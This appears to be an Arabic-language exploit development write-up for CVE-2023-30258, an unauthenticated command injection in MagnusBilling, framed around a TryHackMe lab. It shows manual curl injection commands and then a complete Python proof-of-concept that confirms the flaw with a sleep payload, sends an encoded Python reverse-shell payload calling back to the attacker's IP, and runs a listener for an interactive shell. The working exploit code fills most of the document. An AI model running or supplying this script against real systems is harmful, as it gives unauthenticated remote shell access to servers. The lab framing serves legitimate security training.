 ```yaml
---
title: CVE-2023-30258
layout: home
parent: Exploit Development
---
```


بسم الله الرحمن الرحيم، هذه الثغرة موجودة في تحدي [billing](https://tryhackme.com/room/billing) في [tryhackme](https://tryhackme.com). الثغرة موجودة في نظام magnus billing وهذا النظام مفتوح المصدر ويقدم خدمة IP telephony، هذا التقرير من [rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)
يشرح الثغرة الموجودة. الثغرة تصنيفها unauthenticated RCE وهذا يعني أنه يمديك تنفذ أوامر على السيرفر بدون تسجيل دخول.

## استغلال الثغرة يدويا:

التقرير اللي من rapid7 يقول أن فيه سكربت تجريبي في lib/icepay/icepay.php/ هذا السكربت فيه دالة exec() وهذي الدالة تاخذ parameter موجود في طلب احضار (GET) باسم democ. خلينا نرسل طلب للنقظة ونشوف
```bash
curl http://< TARGET IP >/mbilling/lib/icepay/icepay.php\?democ=URL-encoded command inside backtiks `cmd`
```
```bash
curl http://10.10.139.224/mbilling/lib/icepay/icepay.php\?democ=%60curl%20http%3A%2F%2F10%2E9%2E0%2E238%3A8080%60
```
```bash
python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.139.224 - - [24/Mar/2025 14:29:59] "GET / HTTP/1.1" 200 -
```
ممتاز، الآن عرفنا كيف نستغل الثغرة، جاء وقت الأتمتة automation

## الأتمتة | automation

### الأساس
في البداية خلينا نستقبل معلومات من المستخدم، يمديني استعمل sys.argv[] لكني راح استعمل argparse عشان المرونة
```bash
import argparse
def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application (default mbilling)', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
main()
```

### التحقق من وجود الثغرة

```bash
import requests
def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable') 
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`') # نرسل طلب للسيرفر نخليه يسكن 5 ثواني
    if res.elapsed.total_seconds() > 4.8: # إذا كانت مدة الطلب أكثر من 4.8 ثانية يعني السيرفر متأثر
        return 1
    else:
        return 0
```

### نفتح سوكت من عندنا عشان الاتصال العكسي

```bash
def create_socket(): # نسوي السوكت
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port)) # نشبك السوكت على المدخل
        s.listen(5) # ننتظر الاتصال ونعطيه خمس محاولات
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept() # إذا جاء اتصال نقبله
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit': # نقفل الإتصال quit = إذا كان الأمر اللي رسلته
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0: # إذا كتبنا أمر، راح يتشفر وينرسل إلى السيرفر
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8') # نستقبل 1024 بايت من البيانات 
            print(client_response, end='')
```

### نرسل حمولة الإتصال العكسي

```bash
def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess # كان يمديني أرسل ملف للسيرفر بعدين انفذه، لكن قلت انفذ كود من التيرمنل مباشرة عشان التخفي 
s=socket.socket()
s.connect(("{ip}",12657))
while True:
    data = s.recv(1024)
    if data[:2].decode("utf-8") == "cd":
        os.chdir(data[3:].decode("utf-8"))
    if len(data) > 0:
        cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        output_bytes = cmd.stdout.read() + cmd.stderr.read()
        output_str = str(output_bytes, "utf-8")
        s.send(str.encode(output_str + str(os.getcwd() + "# ")))
s.close()' '''
    encoded_payload = urllib.parse.quote(payload) # urlencoding لازم نشفر الحمولة
    req = requests.get(f'{url}?democ=`{encoded_payload}`') # backtik نرسل طلب للسيرفر فيه الحمولة المشفرة ، لاتنسى ال
```

### الكود كامل

```bash
#!/bin/usr/python

import requests
import argparse
import sys
import socket
import threading
import urllib.parse

def check_if_vulnerable(url):
    print('[+] Checking if the target is vulnerable')
    print('[+] Sending a sleep payload, waiting for 5 seconds delay')
    res = requests.get(f'{url}?democ=`sleep 5`')
    if res.elapsed.total_seconds() > 4.8:
        return 1
    else:
        return 0


# Create a socket for the reverse shell
def create_socket():
    try:
        global host
        global port
        global s
        host = ''
        port = 12657
        s = socket.socket()
    except socket.error as error:
        print(f'an error occured while creating a socket: \n{error}')


# Bind the socket to the port and wait for the connection
def bind_socket():
    try:
        global host
        global port
        global s
        print(f'[+] Binding socket to port: {port}')
        s.bind((host, port))
        s.listen(5)
    except socket.error as error:
        print(f'[-] An error occured while binding {error}')


def socket_accept():
    conn, address = s.accept()
    print(f'[+] Connection established | IP: {address[0]} | Port: {address[1]}')
    send_commands(conn)


def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit':
            conn.close()
            s.close()
            sys.exit()
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), 'utf-8')
            print(client_response, end='')

def get_shell(url,ip):
    print('[+] Getting a reverse shell on the target')
    payload = f'''python3 -c 'import os,socket,subprocess
    s=socket.socket()
    s.connect(("{ip}",12657))
    while True:
        data = s.recv(1024)
        if data[:2].decode("utf-8") == "cd":
            os.chdir(data[3:].decode("utf-8"))
        if len(data) > 0:
            cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes, "utf-8")
            s.send(str.encode(output_str + str(os.getcwd() + "# ")))
    s.close()' '''
    encoded_payload = urllib.parse.quote(payload)
    req = requests.get(f'{url}?democ=`{encoded_payload}`')


def main():
    print('[!] PoC for CVE-2023-30258, this will give you a shell, although not the best one!')
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The url of the target')
    parser.add_argument('-l', '--local_ip', help='the Ip of your machine', required=True)
    parser.add_argument('-p','--port', help='The port that the service is running on (default 80)', type=int, default=80)
    parser.add_argument('-e', '--entry', help='entry point for the application', default='mbilling')
    args = parser.parse_args()
    url, port, entry, local_ip = args.url, args.port, args.entry, args.local_ip
    vulnerable_path = "lib/icepay/icepay.php"
    full_url = f'{url}:{port}/{entry}/{vulnerable_path}'
    check = check_if_vulnerable(full_url)
    if check != 1:
        print('[-] The target is NOT VULNERABLE, try running the script again')
        sys.exit()
    print('[+] The target is VULNERABLE')
    thread = threading.Thread(target=socket_accept, daemon=True)
    create_socket()
    bind_socket()
    thread.start() # ننتظر الاتصال، فتحت ثريد جديد شغالة عليه الدالة المسؤولة عن قبول الاتصال
    get_shell(full_url, local_ip) # لو ما فتحت ثريد الدالة هذي ماراح تتفعل
    thread.join()
main()
```
نلاحظ في آخر الدالة الرئيسية إني استخدمت الثريد، عشان لازم استمع للمدخل من جهازي وأنتظر أي اتصال، والدالة socket_accept() هي المسؤولة عن قبول الاتصال، لو ما فتحت ثريد جديد البرنامج راح يوقف عند الدالة هذي وينتظر الاتصال وأنا احتاج أرسل الحمولة حقتي في أثناء انتظاري للإتصال.